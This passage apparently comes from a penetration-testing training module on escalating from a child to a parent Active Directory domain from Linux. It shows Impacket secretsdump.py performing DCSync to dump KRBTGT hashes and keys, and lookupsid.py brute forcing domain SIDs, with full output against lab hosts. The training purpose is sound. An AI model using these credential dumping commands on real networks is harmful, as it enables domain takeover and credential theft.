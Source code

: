 
We can also perform the attack shown in the previous section from a Linux attack host. To do so, we'll still need to gather the same bits of information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

Once we have complete control of the child domain, `LOGISTICS.INLANEFREIGHT.LOCAL`, we can use `secretsdump.py` to DCSync and grab the NTLM hash for the KRBTGT account.

#### Performing DCSync with secretsdump.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
maiamor@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```

Next, we can use [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain. In this command, whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format `DOMAIN_SID-RID`. For example, from the output below, we can see that the SID of the `lab_adm` user would be `S-1-5-21-2806153819-209893948-922872689-1001`.

#### Performing SID Brute Forcing using lookupsid.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
maiamor@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
```